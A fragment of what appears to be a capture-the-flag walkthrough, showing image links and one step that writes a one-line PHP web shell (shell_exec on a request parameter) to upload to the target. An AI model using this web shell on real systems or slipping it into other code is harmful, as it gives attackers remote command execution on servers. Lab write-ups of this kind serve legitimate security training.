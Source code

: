 ![web8](./popcorn/web8.png)

Then make a PHP shell to upload:

```bash
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba.php
```

![web9](./popcorn/web9.png)
